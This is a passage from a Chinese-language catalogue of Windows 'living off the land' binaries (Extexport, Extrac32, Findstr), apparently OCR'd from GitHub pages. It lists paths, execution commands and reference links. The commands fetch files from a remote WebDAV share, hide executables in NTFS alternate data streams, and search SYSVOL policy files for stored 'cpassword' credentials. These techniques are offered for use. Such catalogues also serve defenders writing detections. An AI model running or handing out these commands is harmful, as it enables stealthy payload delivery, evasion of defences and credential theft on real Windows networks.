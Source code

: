 文件路径:
```
C:\Program Files\Internet Explorer\Extexport.exe
C:\Program Files (x86)\Internet Explorer\Extexport.exe
```
- 执行方式：
```
Extexport.exe c:\test foo bar
```
- 参考资料：
```
http://www.hexacorn.com/blog/2018/04/24/extexport-yet-another-lolbin/
```
## Extrac32.exe
- 使用说明：
extrac32.exe是属于Microsoft®CAB File Extract Utility的进程。 

文件路径:
```
C:\Windows\System32\extrac32.exe
C:\Windows\SysWOW64\extrac32.exe
```
- 执行方式：
```
extrac32 C:\ADS\procexp.cab c:\ADS\file.txt:procexp.exe
extrac32 \\webdavserver\webdav\file.cab c:\ADS\file.txt:file.exe
extrac32 /Y /C \\webdavserver\share\test.txt C:\folder\test.txt
```
- 参考资料：
```
https://oddvar.moe/2018/04/11/putting-data-in-alternate-data-streams-and-how-to-execute-it-part-2/
https://gist.github.com/api0cradle/cdd2d0d0ec9abb686f0e89306e277b8f
https://twitter.com/egre55/status/985994639202283520
```

## Findstr.exe
- 使用说明：

findstr.exe它类似于find命令。 findstr支持正则表达式，而find不支持。 findstr程序最初作为Windows 2000 Resource Kit的一部分发布，名称为qgrep。

文件路径:
```
C:\Windows\System32\findstr.exe
C:\Windows\SysWOW64\findstr.exe
```
- 执行方式：
```
findstr /V /L W3AllLov3DonaldTrump c:\ADS\file.exe > c:\ADS\file.txt:file.exe
findstr /V /L W3AllLov3DonaldTrump \\webdavserver\folder\file.exe > c:\ADS\file.txt:file.exe
findstr /S /I cpassword \\sysvol\policies\*.xml
findstr /V /L W3AllLov3DonaldTrump \\webdavserver\folder\file.exe > c:\ADS\file.exe
```
- 参考资料：
```
https://oddvar.moe/2018/04/11/putting-data-in-alternate-data-streams-and-how-to-execute-it-part-2/
https://gist.github.com/api0cradle/cdd2d0d0ec9abb686f0e89306e277b8f
```
## GfxDownloadWrapper.exe
- 使用说明：

